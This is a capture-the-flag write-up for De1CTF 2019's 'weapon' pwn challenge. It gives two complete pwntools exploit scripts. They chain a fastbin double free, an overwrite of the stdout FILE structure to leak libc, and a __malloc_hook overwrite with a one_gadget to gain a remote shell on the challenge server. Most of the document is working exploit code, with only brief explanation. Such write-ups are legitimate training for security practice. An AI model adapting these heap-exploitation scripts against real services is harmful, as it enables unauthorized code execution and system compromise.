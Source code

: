 # weapon  
[docker-enviroment](./docker-enviroment)

this problem have two ways to solve it

> the key to topic is to let a chunk have libc address in fd. and then we use
> a trick to leak a libc address ,finally use fastbin attack to get shell.

## first  
make a fake 0x80(more than that is ok) chunk and free it .so that we can get
libc in fd and then edit the struct of stdout to leak.finally get shell.

```  
from pwn import *  
def cmd(c):  
	p.sendlineafter(">> \n",str(c))  
def Cmd(c):  
	p.sendlineafter(">> ",str(c))  
def add(size,idx,name="padding"):  
	cmd(1)  
	p.sendlineafter(": ",str(size))  
	p.sendlineafter(": ",str(idx))  
	p.sendafter(":\n",name)  
def free(idx):  
	cmd(2)  
	p.sendlineafter(":",str(idx))  
def edit(idx,name):  
	cmd(3)  
	p.sendlineafter(": ",str(idx))  
	p.sendafter(":\n",name)  
def Add(size,idx,name="padding"):  
	Cmd(1)  
	p.sendlineafter(": ",str(size))  
	p.sendlineafter(": ",str(idx))  
	p.sendafter(":",name)  
def Free(idx):  
	Cmd(2)  
	p.sendlineafter(":",str(idx))

#p=process('./pwn')  
p=remote("139.180.216.34",8888)  
#context.log_level='debug'  
add(0x18,0)  
add(0x18,1)  
add(0x60,2,p64(0x0)+p64(0x21)+'\x00'*0x18+p64(0x21)*5)  
add(0x60,3,p64(0x21)*12)  
add(0x60,4)  
add(0x60,5)  
free(0)  
free(1)  
free(0)  
free(1)

add(0x18,0,"\x50")  
add(0x18,0,'\x00'*8)  
add(0x18,0,"A")

add(0x18,0,'GET')

edit(2,p64(0x0)+p64(0x91))  
free(0)

add(0x18,0)  
add(0x60,0,'\xdd\x25')

free(2)  
free(5)  
free(2)  
free(5)

#gdb.attach(p,'')  
add(0x60,4,'\x70')  
#  
add(0x60,0)  
add(0x60,0)  
add(0x60,0)  
add(0x60,0,'\x00'*(0x40+3-0x10)+p64(0x1800)+'\x00'*0x19)  
p.read(0x40)

base=u64(p.read(6).ljust(8,'\x00'))-(0x7ffff7dd2600-0x7ffff7a0d000)  
log.warning(hex(base))  
#raw_input()  
libc=ELF("./pwn").libc  
Add(0x60,0)  
Add(0x60,1)  
Add(0x18,2)  
Free(0)  
Free(1)  
Free(0)  
Add(0x60,0,p64(libc.sym['__malloc_hook']+base-35))  
Add(0x60,0)  
Add(0x60,0)  
one=0xf02a4  
Add(0x60,0,'\x00'*19+p64(one+base))

Free(1)  
Free(1)

p.interactive()

```

## second  
when we use scanf to input something .if you input lots of things ,it will
malloc a 0x400 chunk to keep it temporarily。if we keep some fastbin when it
malloc.it will be put into smallbin.now we also have libc address.

```  
from pwn import *  
context.log_level = "debug"  
#p = process("./weapon")  
p = remote("139.180.216.34",8888)  
elf = ELF("./weapon")  
a = elf.libc  
#gdb.attach(p)  
def create(idx,size,content):  
	p.recvuntil(">> \n")  
	p.sendline(str(1))  
	p.recvuntil("weapon: ")  
	p.sendline(str(size))  
	p.recvuntil("index: ")  
	p.sendline(str(idx))  
	p.recvuntil("name:")  
	p.send(content)  
def delete(idx):  
	p.recvuntil(">> ")  
	p.sendline(str(2))  
	p.recvuntil("idx :")  
	p.sendline(str(idx))

def edit(idx,content):  
	p.recvuntil(">> ")  
	p.sendline(str(3))  
	p.recvuntil("idx: ")  
	p.sendline(str(idx))  
	p.recvuntil("content:\n")  
	p.send(content)

create(0,0x60,"a")  
create(1,0x60,"b")  
create(2,0x60,"c")  
delete(0)  
delete(1)  
p.recvuntil(">> ")  
p.sendline("1"*0x1000)  
create(3,0x60,"\xdd\x25")  
create(4,0x60,"e")  
delete(2)  
delete(1)  
edit(1,"\x00")  
create(5,0x60,"f")  
create(6,0x60,"f")  
file_struct = p64(0xfbad1887)+p64(0)*3+"\x58"  
create(7,0x60,"\x00"*0x33+file_struct)  
libc_addr =
u64(p.recvuntil("\x00",drop=True)[1:].ljust(8,"\x00"))-a.symbols["_IO_2_1_stdout_"]-131  
print hex(libc_addr)  
delete(6)  
edit(6,p64(libc_addr+a.symbols["__malloc_hook"]-0x23))

create(8,0x60,"t")

create(9,0x60,"a"*0x13+p64(libc_addr+0xf1147))  
p.recvuntil(">> \n")  
p.sendline(str(1))  
p.recvuntil("weapon: ")  
p.sendline(str(0x60))  
p.recvuntil("index: ")  
p.sendline(str(6))

p.interactive()  
```  

Original writeup (https://github.com/De1ta-
team/De1CTF2019/tree/master/writeup/pwn/Weapon).